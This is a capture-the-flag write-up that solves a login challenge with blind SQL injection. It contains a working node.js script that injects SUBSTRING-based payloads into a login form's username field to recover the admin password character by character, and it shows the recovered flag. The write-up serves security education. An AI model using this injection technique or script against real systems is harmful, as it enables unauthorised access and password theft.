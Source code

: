 ```yaml
---
ai_date: '2025-04-27 05:10:26'
ai_summary: Script bruteforces password by checking characters one at a time using
  SQL substring.
ai_tags:
- sql
- brute-force
- sub-string
created: 2021-12-21T23:50
updated: 2024-06-10T23:38
---
```


## AppVenture Login Part 2

> Ok, you got the flag, but I bet you'll never get my password!

Basing off the description, the flag is probably the password. Even though we logged in as admin in the last challenge, we do not know of the password.

To get the password, we can check the password 1 character at a time to reduce the number of tries. Trying the entire password string at a time require exponential amount of tries and will be unrealistic.

The flag format is `flag{...}` where characters consist of lower case letters, `{}` and `_`. We can quickly code up a little script to find the password. In this writeup we will be using `node.js` for the simplicity and non-pythonic syntax.

```js
const fetch = require("node-fetch");
const FormData = require('form-data');

let chars = "abcdefghijklmnopqrstuvwxyz_{}".split('');
let password = [];

async function verify(i, c) {
    const form = new FormData();
    form.append('username', `admin' and SUBSTRING(password, ${i + 1}, 1)='${c}' --`);
    const res = await fetch('http://35.240.143.82:4208/login', {method: 'POST', body: form})
    const text = await res.text();
    return text !== "Login failed"
}

async function step(i) {
    for (let c of chars) {
        if (await verify(i, c)) return c;
    }
    return null;
}

async function brute_force() {
    let i = 0;
    while (true) {
        password[i] = await step(i);
        console.log(password.join(''));
        if (!password[i]) break;
        i++;
    }
    console.log(password.join(''));
}

brute_force();
```

As before we use `admin'` to escape the admin field, and `--` to skip the password check.

However we add our own check in the middle, `SUBSTRING(password, i, 1)` works the same as normal substring would but sql is 1-indexed(kinda weird but yeh)

What would happen would be like this

- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='a' --` fail
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='b' --` fail
- ...
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='f' --` success
- `select id from users where name='admin' and SUBSTRING(password, 2, 1)='a' --` fail
- ...

`verify` will make a request to check if the password has character in variable `c` at position `i`.

`step` will simply try all characters for a position until one hits.

`brute_force()` will step through all positions until a correct character can't be found for the position, which would be most likely the end of the password

### Running the script

```flag
f
fl
fla
...
flag{oops_looks_like_youre_not_blind
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
```

Flag obtained